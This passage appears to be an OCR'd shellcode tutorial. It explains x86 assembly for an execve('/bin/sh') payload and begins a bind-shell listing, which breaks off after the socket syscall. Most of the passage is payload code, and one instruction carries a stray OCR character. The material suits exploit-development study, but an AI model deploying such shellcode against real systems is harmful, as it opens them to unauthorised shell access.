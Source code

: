 argv is an array of argument strings passed to the new program.  By convention, the first of these strings (i.e., argv[0]) should  contain  the  filename associated  with  the file being executed.  envp is an array of strings, conventionally of the form key=value, which are passed as environment to the new program. 
The argv and envp arrays must each include a null pointer at the end of the array.

First we need to push values to the stack. Argv and envp need to have null pointer as well as path name must be null terminated. Since stack grovs from higher to lower memory address, first we need to push null byte and then "/bin/sh" in reverse order. Additinal remark, since "/bin/sh" takes 7 bytes, we can add another slash to have 8 bytes "//bin/sh" and avoid null bytes. 
In order to push null byte to stack, we need to zero-out EAX and push it to stack:

```
XOR EAX, EAX
PUSH EAX
```

After that, we need to push "//bin/sh"
```
PUSH 0x68732f6E
PUSH 0x69622f2F
```

Then we need to place pointer to beggining of stack to EBX. ESP is pointing to the beggining of the stack and put null pointer by pushing EAX to the stack.
```
MOV EBX, ESP
PUSH EAX
MOV EDX, ESP
```

ECX should point to the location of EBX so we can push EBX to the stack and move ESP which points to the top of the stack to EXC and finaly load execve syscall number to EAX (AL).
```
PUSH EBX
MOV ECX, ESP
MOV AL, 0x0Bž
INT 0x80
```

## Bind shell code ##

So when we put it all together and add sections and entry point the result is following:

```
global _start

section .text
_start: 

        ; clear registers
        XOR EAX, EAX     ; set EAX to zero
        XOR EBX, EBX     ; set EBX to zero
        XOR ECX, ECX     ; set ECX to zero
        XOR EDX, EDX     ; set EDX to zero

        ; socket syscall
        MOV AX, 0x167    ; 0x167 is hex syscall to socket
        MOV BL, 2        ; set domain argument
        MOV CL, 1        ; set type argument
        MOV DL, 6        ; set protocol argument
        INT 0x80         ; interrupt

        MOV EDI, EAX     ; as result of socket syscall descriptor is saved in EAX
                         ; descriptor will be used with several other syscalls so
                         ; we need to save it some how for later use. One way is
                         ; to save it in EDI register which is least likely to be 
                         ; used in following syscalls
```